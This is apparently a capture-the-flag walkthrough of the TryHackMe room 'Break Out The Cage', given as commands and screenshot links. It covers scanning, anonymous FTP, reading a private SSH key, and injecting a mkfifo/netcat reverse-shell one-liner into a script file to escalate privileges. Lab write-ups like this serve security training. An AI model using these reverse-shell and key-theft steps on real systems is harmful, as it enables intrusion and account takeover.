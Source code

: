 ```yaml
---
description: https://tryhackme.com/room/breakoutthecage1
---
```


# Break Out The Cage

### **What is Weston's password?**

```
nmap 10.10.7.103
```

![](<../../.gitbook/assets/Screenshot from 2020-09-24 17-34-10.png>)

```
lftp 10.10.7.103 -u Anonymous,
lftp :~> ls -a
lftp :~> cat dad_tasks
```

![](<../../.gitbook/assets/Screenshot from 2020-09-24 17-34-50.png>)

![](<../../.gitbook/assets/Screenshot from 2020-09-24 21-26-57.png>)

![](<../../.gitbook/assets/Screenshot from 2020-09-24 18-36-45.png>)

### **What's the user flag?**

#### **optional**

```
gobuster dir -u http://10.10.7.103/ \
             -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt -t64
```

![](<../../.gitbook/assets/Screenshot from 2020-09-24 20-10-43.png>)

![](<../../.gitbook/assets/Screenshot from 2020-09-24 21-20-10.png>)

#### **optional**

```
wget http://10.10.7.103/auditions/must_practice_corrupt_file.mp3
audacity must_practice_corrupt_file.mp3
```

![](<../../.gitbook/assets/Screenshot from 2020-09-24 18-50-15.png>)

```
nc -nvlp 4444
$ cat /home/cage/.ssh/id_rsa
```

```
ssh weston@10.10.7.103
id
find / -type f -group cage -exec ls -l {} \; 2>/dev/null
echo -n '; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.101.193 4444 >/tmp/f' > /opt/.dads_scripts/.files/.quotes
```

```
vim id_rsa
chmod 600 id_rsa
ssh -i id_rsa cage@10.10.122.197
$ cat Suprt_Duper_Checklist
```

![](<../../.gitbook/assets/Screenshot from 2020-09-24 20-46-15.png>)

### **What's the root flag?**

```
cat email_backup/email_2
cat email_backup/email_3
```

![](<../../.gitbook/assets/Screenshot from 2020-09-24 20-57-22.png>)

![](<../../.gitbook/assets/Screenshot from 2020-09-24 20-48-03.png>)

![](<../../.gitbook/assets/Screenshot from 2020-09-24 21-11-35.png>)

```
su - root
cat /root/email_backup/email_2
```

![](<../../.gitbook/assets/Screenshot from 2020-09-24 21-11-37.png>)

